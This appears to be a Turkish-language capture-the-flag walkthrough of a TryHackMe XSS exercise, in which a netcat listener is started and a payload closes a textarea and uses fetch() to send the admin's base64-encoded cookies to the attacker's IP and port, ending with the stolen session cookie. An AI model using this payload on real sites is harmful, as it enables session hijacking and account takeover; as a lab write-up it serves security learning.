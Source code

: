 İndirme işleminden sonra gelen istekleri dinlememiz lazım. Netcat aracımızı `nc -lvnp <port>` ile çalışmaya başlatıyoruz. \<port> kısmına istediğiniz bir port numarasını yazabilirsiniz ben 1234 portunu yazacağım.

Netcat 1234 portundan gelecek istekleri dinliyor ama hedefimizde olan admin hangi adrese istek atacağını bilmiyor daha o kısımları ayarlamadık. Öncelike THM odasına hangi IP ile bağlandığımızı öğrenmemiz lazım bunun için komut satırımıza `ifconfig` yazıyoruz. Ip adresini hangi cihaza bağlantı yapıldığını belirtmek için kullanacağız.

Bunun için şöyle bir payload kullanacağız:

```
</textarea><script>fetch('http://IP:PORT?cookie=' + btoa(document.cookie) );</script>
```

Bu payloadı açıklamak gerekirse öncelikle \</textarea> tagi ile textarea tagin içinden çıkıyor. Sonrasında verilen IP:Port adresine cookie parametresini base64 ile encode edip parametre olarak gönderiyor.

Ve netcat üzerinden dinleme yaparken adminin cookie değeri bize düşüyor.

<figure><img src="../assets/zafiyetler/xss/cikti.png" alt=""><figcaption></figcaption></figure>

Cevaba henüz ulaşamadık bize dönen değer base64 ile encode edildiği için decode işlemi yapmamız lazım. Decode ettikten sonra karşımıza bizden istenen değer çıkıyor ve soruyur bitiriyoruz.

```
staff-session=4AB305E55955197693F01D6F8FD2D321
```


> Bu yazı [*Yavuz Kuk*](https://www.linkedin.com/in/yavuzkuk/) tarafından hazırlanmıştır.